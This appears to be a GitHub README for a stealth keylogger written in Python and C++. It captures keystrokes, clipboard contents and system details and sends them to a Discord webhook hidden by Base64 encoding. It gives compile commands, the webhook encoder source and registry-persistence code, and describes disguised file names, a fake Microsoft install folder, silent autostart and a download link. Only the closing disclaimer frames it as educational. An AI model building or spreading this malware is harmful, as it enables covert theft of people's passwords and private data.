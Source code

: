 # 🛡️ Keylogger – Installer-based Setup

A fully featured and installer-driven keylogger written in Python and C++.  
It captures keystrokes, clipboard changes, system information, and sends the data securely to a hidden Discord webhook.  
Includes a one-click installer, automatic webhook encoding, and stealth autostart via DLL and Task Scheduler.

---

## ✅ Features

- ⌨️ Logs all keystrokes with modifier support (e.g., `CTRL + C`)
- 📋 Detects clipboard changes and sends content in real time
- 💻 Collects system information (hostname, user, IPs, OS)
- 🔁 Sends data periodically via Discord webhook
- 🔒 Webhook hidden using Base64 encoding in a disguised config file
- 🧩 One-click setup via GUI installer
- 🎭 Stealth autostart using `update.dll` + Task Scheduler
- 🫥 Runs silently with no visible windows
- 🛠️ Compatible with both development and compiled environments

---

## 📦 Installer Structure (v1.0 Release)

| File / Folder                        | Description                                                                 |
| ----------------------------------- | --------------------------------------------------------------------------- |
| `installer.exe`                     | One-click installer GUI – encodes the webhook and sets up everything automatically            |
| `systemupdater.exe`                 | Keylogger binary (compiled from `systemupdater.py`)                         |
| `update.dll`                        | DLL that loads the keylogger at login using `rundll32.exe`                 |
| `cache.db`                          | Contains the encoded Discord webhook (Base64)                               |
| `README.txt`                        | Offline readme for users                                                    |
| `LICENSE.txt`                       | MIT License                                                                 |
| `Source_Code/installer.py`         | Python source for installer GUI                                             |
| `Source_Code/systemupdater.py`     | Main keylogger logic (keystrokes, clipboard, system info)                   |
| `Source_Code/Base64_webhook_encoder.py` | Optional CLI tool to encode webhook manually                         |
| `Source_Code/startloader.cpp`      | Source code for DLL that triggers the EXE                                   |
| `Source_Code/icon.ico`             | Optional icon used during EXE compilation                                               |

---

## ⚙️ Compilation Instructions

### 🧪 Keylogger Binary (systemupdater.exe)

```bash
pyinstaller --onefile --noconsole --icon="icon.ico" systemupdater.py
```

### 🧪 Installer Binary (installer.exe)

```bash
pyinstaller --onefile --noconsole --icon="icon.ico" installer.py
```

### 🧪 DLL (update.dll)

```bash
g++ -shared -o update.dll startloader.cpp -Wl,--add-stdcall-alias
```

> The exported function **must** be named `MyFunction` for compatibility with `rundll32.exe`.

---

## 🔐 Webhook Handling

To hide the Discord webhook URL, it is encoded via Base64 and saved to `cache.db`.  
The installer does this automatically, or you can use the manual tool:

### Manual Encoder (Base64_webhook_encoder.py)

```python
import base64
import os
import sys
import msvcrt

webhook = input("Enter your Discord webhook URL: ").strip()
if not webhook.startswith("http"):
    print("❌ Invalid webhook URL!")
    print("Press any key to exit...")
    msvcrt.getch()
    sys.exit(1)

encoded = base64.b64encode(webhook.encode()).decode()
base_dir = os.path.dirname(sys.executable if getattr(sys, 'frozen', False) else __file__)
full_path = os.path.join(base_dir, "cache.db")

try:
    with open(full_path, "w", encoding="utf-8") as f:
        f.write(encoded)
    print(f"✅ Webhook saved to: {full_path}")
except Exception as e:
    print(f"❌ Failed to save: {e}")

print("Done. Press any key to close...")
msvcrt.getch()
```

---

## 🚀 Autostart via Registry Key

The DLL is silently triggered at each user logon.

### ▶ Add Startup Registry Key

```powershell
def setup_registry_autostart():
    dll_path = os.path.join(TARGET_DIR, DLL_NAME)
    rundll_command = f'rundll32.exe "{dll_path}",MyFunction'
    try:
        with winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE,
                            r"SOFTWARE\Microsoft\Windows\CurrentVersion\Run",
                            0, winreg.KEY_SET_VALUE) as key:
            winreg.SetValueEx(key, REG_KEY_NAME, 0, winreg.REG_SZ, rundll_command)
```

### ❌ Remove Startup Registry Key

```powershell
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SystemUpdater" -ErrorAction SilentlyContinue
```

---

## 🧠 How the Installer Works

1. **Run `installer.exe`**
   - Prompts for webhook
   - Encodes to `cache.db`

2. **Installs binaries** to:  
   `C:\ProgramData\Microsoft\CacheSync\`

3. **Registers Task Scheduler autostart**
   - Uses `rundll32.exe` to execute `update.dll` on logon

---

## 📥 Download

The latest compiled release (including EXE, DLL, full source code) is available here:  
🔗 [Latest Release →](https://github.com/mrpanda-bamboo/keylogger/releases/latest)

---

## 📜 License

This project is licensed under the **MIT License**.  
See the [LICENSE](./LICENSE) file for full terms.

---

## 🚨 Disclaimer

> This software is intended for **educational, research, and ethical testing purposes only**.  
> **Do not** use this tool on systems you do not own or have explicit permission to monitor.  
> Misuse of this software can violate privacy laws and may be considered illegal in many countries.  
> The author takes **no responsibility** for misuse or damage caused.

